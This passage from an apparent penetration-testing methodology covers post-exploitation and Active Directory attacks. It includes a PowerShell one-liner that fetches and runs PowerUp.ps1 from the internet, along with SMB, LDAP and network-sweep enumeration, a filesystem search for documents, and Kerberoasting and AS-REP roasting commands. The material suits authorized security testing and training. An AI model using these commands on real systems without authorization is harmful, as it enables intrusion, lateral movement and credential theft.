 ## Phase 5: Post-Exploitation

### 5.1 Privilege Escalation
```bash
# Linux privilege escalation enumeration
# (After gaining initial access)
# ./linpeas.sh

# Windows privilege escalation
# powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```

### 5.2 Lateral Movement
```bash
# Network shares enumeration
smbclient -L //192.168.1.10 -U guest

# ARP table analysis
arp -a

# Internal network discovery from compromised host
nmap -sn 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16
```

### 5.3 Data Exfiltration Simulation
```bash
# Identify sensitive data locations
find / -name "*.pdf" -o -name "*.doc*" -o -name "*.xls*" 2>/dev/null

# Database enumeration
mysql -u root -p -e "SHOW DATABASES;"
```

## Phase 6: Active Directory Assessment

### 6.1 Domain Enumeration
```bash
# Domain controller identification
nmap --script smb-os-discovery -p 445 192.168.1.0/24

# LDAP enumeration
nmap --script ldap-search --script-args 'ldap.username="",ldap.password=""' -p 389 192.168.1.10
```

### 6.2 Kerberos Attacks
```bash
# Kerberoasting (if credentials available)
# GetUserSPNs.py domain.local/user:password -dc-ip 192.168.1.10 -request

# AS-REP Roasting
# GetNPUsers.py domain.local/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```

